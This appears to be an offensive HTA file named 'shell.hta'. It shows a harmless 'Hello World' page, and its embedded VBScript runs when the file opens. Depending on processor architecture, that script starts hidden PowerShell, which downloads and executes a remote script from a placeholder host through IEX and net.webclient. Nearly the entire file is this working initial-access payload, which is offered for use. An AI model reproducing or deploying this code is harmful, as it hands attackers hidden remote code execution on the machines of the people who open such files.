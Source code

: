 # shell.hta

<!-- HOST COMPROMISSE-->
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>aaaaaaa</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
  Function Pwn()
  Set shell = CreateObject("wscript.Shell")

  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://x.x.x.x:80/a'))"""
  Else
    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://x.x.x.x:80/b'))"""
  End If

End Function
    Pwn
  </script>
</html>
